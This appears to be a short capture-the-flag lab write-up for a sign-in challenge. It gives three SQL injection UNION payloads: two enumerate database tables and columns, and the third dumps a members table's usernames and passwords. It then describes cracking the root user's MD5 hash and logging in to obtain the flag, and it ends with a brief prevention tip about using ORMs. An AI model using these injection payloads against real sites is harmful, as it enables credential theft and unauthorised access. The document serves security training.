 # 01_sign_in

## Instructions

This query returns all available columns in the db

```
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

And this query allows to check all tables

```
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.columns
```

We have noticed that members page has sql search input
Using next query we get users creditianals

```
1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default
```

Decripting password of root user using MD5 we got the password: shadow. We logged in in the sign_in page and we got the flag.

## How to prevent

From my point of view the best solution is using ORMs.
Btw it lets avoid using direct sql from browser

